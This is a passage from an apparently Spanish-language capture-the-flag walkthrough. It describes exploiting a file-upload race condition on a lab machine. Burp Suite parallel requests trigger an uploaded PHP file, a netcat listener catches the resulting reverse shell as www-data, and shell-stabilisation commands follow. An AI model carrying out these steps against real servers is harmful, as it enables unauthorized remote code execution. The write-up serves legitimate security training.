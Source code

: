 > peticion2 (Entrar en archivo)

```
GET /uploads/test.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: session=eyJ1c2VyIjoiZGlzZW8ifQ.aKQ-mw.iCU12CmvCah90wWOzNU9FO5bNPI; PHPSESSID=6l7ttl49kbdv23ip4k4j5uuhsl
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Tendremos que crear un grupo en `BurpSuite` de peticiones en la parte de `Repeater` donde hay un `+`, seleccionamos las peticiones y a `crear`, si todo sale bien, veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-19 114147.png" alt=""><figcaption></figcaption></figure>

Ahora vamos a darle a la felchita donde pone `Send` y veremos un desplegable el cual seleccionaremos la opcion llamada `Send group in paralle (last-byte sync)` con esto lo que haremos sera enviar las dos peticiones de forma simultanea.

Nos pondremos a la escucha antes de enviar nada.

```shell
nc -lvnp <PORT>
```

Si enviamos estas peticiones en paralelo y funcionara, podremos ver lo siguiente donde tenemos la escucha:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 49998
whoami
www-data
```

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
